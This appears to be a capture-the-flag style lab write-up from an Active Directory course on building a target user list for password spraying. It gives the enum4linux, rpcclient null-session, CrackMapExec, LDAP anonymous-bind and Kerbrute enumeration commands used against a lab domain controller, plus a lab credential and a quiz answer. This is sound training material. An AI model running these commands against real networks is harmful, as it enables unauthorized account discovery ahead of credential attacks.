








<div align='center'>

# **Lab 7: Password Spraying - Making a Target User List** 

</div>

## **SMB NULL Session to Pull User List**

### **Using enum4linux**

```zsh
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```

We get a list of [users](../docs/Lab7_userlists.txt)


### **Using rpcclient**

```zsh
rpcclient -U "" -N 172.16.5.5

rpcclient $> enumdomusers
```

Here is the result



### **Using CrackMapExec --users Flag**

```zsh
crackmapexec smb 172.16.5.5 --users
```

Here is the result



## **Gathering Users with LDAP Anonymous**

### **Using ldapsearch**

```zsh
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

Here is the result



### **Using windapsearch**

```zsh
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```

Here is the result



## **Enumerating Users with Kerbrute**

We will use the wordlist [jsmith.txt](https://github.com/insidetrust/statistically-likely-usernames/blob/master/jsmith.txt) to enumerate users

```zsh
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```

Looking at the result, apart from the users we have already found, we also get the hash for the account which has no pre-authentication required





**Question:** Enumerate valid usernames using Kerbrute and the wordlist located at /opt/jsmith.txt on the ATTACK01 host. How many valid usernames can we enumerate with just this wordlist from an unauthenticated standpoint?

- **Answer:** 56



## **Credentialed Enumeration to Build our User List**

### **Using CrackMapExec with Valid Credentials**

```zsh
crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
```

Here is the result

